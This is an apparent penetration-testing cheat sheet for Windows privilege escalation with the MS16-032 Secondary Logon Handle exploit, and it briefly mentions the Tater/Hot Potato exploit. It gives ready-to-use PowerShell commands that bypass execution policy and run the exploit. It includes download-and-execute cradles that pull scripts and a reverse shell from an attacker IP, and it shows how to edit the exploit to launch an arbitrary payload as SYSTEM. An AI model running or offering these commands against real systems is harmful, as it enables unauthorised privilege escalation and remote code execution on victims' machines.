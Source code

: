 

### MS16-032 Secondary Logon Handle

This script by Fuzzysecurity is amazing https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1, but might need a few changes as you can either modify it to run your own specified binary or run as is to spawn a cmd shell, which sometimes doesn't work unless you already have an RDP session on the victim. The target also needs to have 2+ CPU cores so this will fail often on vm boxes.

To check if the machine is patched 
```cmd
wmic qfe list | find "3139914"
```

First off to just run it as usual upload the script to the victim and do this
```powershell
powershell -nop -ep bypass
Import-Module C:\Users\Victim\Desktop\MS16-032.ps1
Invoke-MS16-032
```
Or you can try running it remotely from a normal windows shell this may not work unless its over RDP.
```powershell
powershell -c `iex ((new-object net.webclient).downloadstring('http://10.10.14.22:8000/Invoke-MS16-032.ps1')); Invoke-MS16-032`
```

To have it call something other than the cmd.exe payload, modify this path located in the middle of Fuzzysec's script. This seems to be reliable with any msf payload.
```powershell
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
$CallResult = [Advapi32]::CreateProcessWithLogonW(
"user", "domain", "pass",
0x00000002, "C:\Users\740i\Desktop\danger.exe", "",
0x00000004, $null, $GetCurrentPath,
[ref]$StartupInfo, [ref]$ProcessInfo)
```
There is also a custom binary from Meatballs that will just spawn a command prompt as system. https://github.com/Meatballs1/ms16-032

The Powershell empire version will take a -Command flag that makes it easy to run it against another reverse shell or a local command to escalate privileges. 
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1

```powershell
powershell.exe -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Invoke-MS16032.ps1
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/shell.ps1')"
```


### Tater

There's a few different implementations of this Hot Potato exploit, I've gotten lucky with the powershell version.
https://github.com/Kevin-Robertson/Tater
